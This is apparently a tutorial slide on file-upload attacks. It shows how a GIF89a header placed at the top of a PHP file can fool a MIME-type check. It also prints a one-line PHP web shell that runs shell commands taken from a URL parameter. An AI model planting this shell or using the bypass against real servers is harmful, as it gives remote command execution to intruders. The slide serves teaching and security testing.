

# Exploiting mime-type
GIF89a; header
The easy way is to trick the mime-type security check in order to think that the file we’ve uploaded is an image but in reality the web server is going to recognize it as a PHP script file.
GIF89a is a GIF file header. If uploaded content is being scanned, sometimes the check can be fooled by putting this header item at the top of shellcode:
GIF89a;
<?
system($_GET['cmd']); # shellcode goes here
?>
9